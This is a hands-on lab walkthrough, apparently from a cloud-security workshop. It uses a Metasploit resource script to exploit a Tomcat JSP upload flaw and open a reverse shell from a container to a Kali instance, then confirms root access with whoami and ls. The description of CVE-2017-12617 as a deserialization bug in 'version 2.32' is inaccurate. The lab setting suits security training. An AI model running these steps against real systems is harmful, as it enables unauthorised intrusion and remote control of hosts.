






# Lab 2: Attacking the Tomcat service

**Launching the attack**

This exploit leverages a deserialization vulnerability in Apache Tomcat (version 2.32, CVE-2017-12617) to execute arbitrary code and shovel an administrative shell back to a listener service on the Kali instance for command and control access to the exploited host.

We'll launch the Metasploit “resource script” we viewed in the previous section. A resource script is essentially a batch script for Metasploit which you can use to automate common tasks. See the following link for more information about Metasploit resource files.

https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit__resource_files.md#what-are-resource-files

Now we’ll complete the setup of our Kali environment by creating the required configuration files to launch the attack against the DNS address and exploit script we already identified.

Complete the setup of the _startup.rc_ file

```shell
./start-msploit.sh
```

Examine the contents of the resulting “startup.rc” file

```shell
cat ./startup.rc
```



- We are using the “tomcat_jsp_upload_bypass’ exploit resource script
- rhosts is the DNS address of the Application Load Balancer used to reach the vulnerable system
- rport is the target port
- The LHOST is the public IP associated with the Kali instance
- The LPORT is the local port that the Kali instance will listen on for the shovel connection
- The REVERSELISTNERBINDADDRESS is the local ip address assigned to the Kali instance in the VPC
- Payload java/jsp_shell_reverse_tcp is a package we will load onto the target so we can send commands to the target system.

Write Kali’s public IP to a variable and make a note of it.

```shell
KALI_PUB_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Kali" --query 'Reservations[].Instances[].PublicIpAddress' --output text)

echo $KALI_PUB_IP
```

> [!NOTE]
> Copy the Kali Public IP address somewhere for later use!

Before initiating the attack, we’re going to record the time for our forensic investigation later on.

```shell
date
```

Launch Metasploit with the startup.rc script that has all the necessary parameters for the target

```shell
sudo msfconsole -r startup.rc
```

> [!NOTE]
> Ignore any “unable to resolve host” errors

Type “yes” if prompted to set up a new database, and accept the defaults



Examining the output we can observe the following

1. We load the tomcat_jsp_upload_bypass
1. Set the rhosts (target of the attack) as the DNS address of the load balancer
1. We set the target port to 80
1. We set the LHOST as the public IP address associated with the Kali network interface (required for the remote shell that we are trying to create to our Kali instance)
1. We set the listening port for the reverse shell to 443
1. We attempt to bind Kali to the local IP address of the Kali network interface
1. We created a new session which is a reverse shell connection to the Kali instance

**Establish a reverse shell**

Metasploit has indicated that we successfully created a reverse shell connection from the vulnerable web app pod to the Kali instance.

_List active sessions_

```shell
sessions -i
```



Connect to the active session

```shell
sessions <<id>>
```



View your logged in identity

```shell
whoami
```



_List the root directory on the compromised container_

```shell
ls -al
```



> [!NOTE]
> We appear to have the aws cli installed on the container, a risky practice but potentially helpful to the attacker. (We will return to this later.) You will also discover that we have the ability to install additional software as required.

At this point we have determined that we have privileged, root-level access on the container itself. In the next phase of the attack, we will explore what we might achieve with this level of access.
